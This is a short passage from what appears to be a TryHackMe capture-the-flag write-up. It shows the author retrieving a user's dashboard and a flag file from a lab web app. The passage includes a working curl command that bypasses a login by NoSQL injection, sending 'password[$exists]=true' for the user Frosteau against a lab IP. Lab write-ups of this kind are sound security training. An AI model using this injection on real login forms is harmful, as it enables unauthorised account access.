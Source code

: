 Which gave me the following output:
```
<h1 class="text-3xl font-bold leading-tight text-center text-gray-100 ">Welcome Frosteau!</h1>
Size: 13899
```

And now that we know that we're interested in retrieving `Frosteau`'s dashboard we can clean up this `curl` command and shorten it to the following:
```
curl -u 'admin:Y3<R E D A C T E D>n' -s http://10.10.106.239:8080/login.php -X POST -d 'username=Frosteau&password[$exists]=true' -L -c cookie 
```

Finally we are served `Frosteau`'s dashboard which - luckily for us - includes the contents of `yetikey2.txt` in cleartext in his 'Important Notes' section:
![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/2689690b-8ea5-4594-80c2-9e2e36f0a32e)

I copied the html output and pasted it to a blank document on my local machine for a better-looking formatted output:

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/b450a6e4-c0fe-41be-afeb-448e69629909)

And right there at the bottom there is a list of usernames which took me oh-so-long to retrieve!  I wonder if there was a way of getting to that list earlier on!

